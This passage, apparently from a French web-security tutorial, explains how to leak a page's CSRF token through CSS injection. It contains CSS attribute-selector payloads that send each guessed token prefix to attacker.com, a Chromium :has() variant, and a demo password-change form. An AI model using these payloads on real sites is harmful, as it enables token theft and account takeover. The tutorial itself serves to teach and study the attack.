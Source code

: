{% code overflow="wrap" %}
```css
/* Première feuille CSS */
input[name=csrf-token][value^=h]~*:first-child {
  background-image:url(https://attacker.com/?leak=h);
}

/* Seconde feuille CSS */
input[name=csrf-token][value^=h2]~*:first-child:first-child {
  background-image:url(https://attacker.com/?leak=h2);
}

/* Seconde feuille CSS */
input[name=csrf-token][value^=h2A]~*:first-child:first-child:first-child {
  background-image:url(https://attacker.com/?leak=h2A);
}

/* etc */
```
{% endcode %}

Cela ajoute une autre problématique. L'utilisation des sélecteurs `~*` ne semble pas compatibles avec l'utilisation d'une pseudo-class comme `:first-child`. Etant donné que seuls les navigateurs basés sur Chromium sont de toute façon exploitables, il est possible d'utiliser à la place la pseudo-class `has()` :&#x20;

<pre class="language-css" data-overflow="wrap"><code class="lang-css">/* Première feuille CSS */
has(input[name=csrf-token][value^=h]):first-child {
  background-image:url(https://attacker.com/?leak=h);
}

/* Seconde feuille CSS */
has(input[name=csrf-token][value^=h2]):first-child:first-child {
  background-image:url(https://attacker.com/?leak=h2);
}

/* Seconde feuille CSS */
<strong>has(input[name=csrf-token][value^=h2A]):first-child:first-child:first-child {
</strong>  background-image:url(https://attacker.com/?leak=h2A);
}

/* etc */
</code></pre>

> Si quelqu'un identifie la possibilité d'utiliser les sélecteurs `~*` avec la pseudo-class `:first-child`, qu'il n'hésite pas à me contacter par mail ou sur mon Twitter :)

#### Position de l'injection

La position de l'injection semble avoir une incidence sur le bon déroulement de l'exploitation. Si le point d'injection se situe après l'élément ciblé, alors, l'attaque se déroule rapidement et sans encombre :&#x20;

{% code overflow="wrap" %}
```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
  </head>
  <body>
    <h1>Injection CSS - utilisation de la règle CSS @import</h1>
    <form action="" method="POST">
        <input type="password" name="newPassword" placeholder="New Password">
        <input type="password" name="confirmNewPassword" placeholder="Confirm New Password">
        <input type="hidden" name="csrf-token" value="a5ccef6a-1f00-4a02-b16b-e4e9e517b223">
        <input type="submit" name="changePassword" value="Continue">
    </form>
```
